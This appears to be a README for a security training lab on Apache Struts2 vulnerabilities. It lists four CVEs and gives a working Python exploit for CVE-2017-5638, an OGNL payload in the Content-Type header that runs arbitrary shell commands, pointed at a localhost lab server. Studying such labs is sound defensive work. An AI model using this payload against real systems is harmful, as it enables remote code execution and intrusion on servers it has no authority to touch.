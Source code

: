 # Apache Struts2 Vulnerabilities

## Overview
Apache Struts2 has been plagued by numerous critical vulnerabilities over the years. This lab demonstrates multiple Struts2 RCE vulnerabilities including the infamous Equifax breach vulnerability.

## Quick Start

**Access URL**: http://localhost:8086

**Application**: Struts2 Showcase Application

**Key Vulnerabilities**:
- CVE-2017-5638 (Equifax breach)
- CVE-2018-11776
- CVE-2017-9791
- CVE-2017-9805

## Major Vulnerabilities

### 1. CVE-2017-5638 - Jakarta Multipart Parser RCE
The vulnerability that led to the Equifax breach.

```python
#!/usr/bin/env python3
# CVE-2017-5638 Exploit
import requests

def exploit_2017_5638(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += f"(#cmd='{cmd}')."
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    
    headers = {
        'Content-Type': payload
    }
    
    try:
        response = requests.post(url, headers=headers)
        return response.text
    except Exception as e:
        return f"Error: {e}"

# Usage
print(exploit_2017_5638("http://localhost:8086/struts2-showcase/", "whoami"))
```
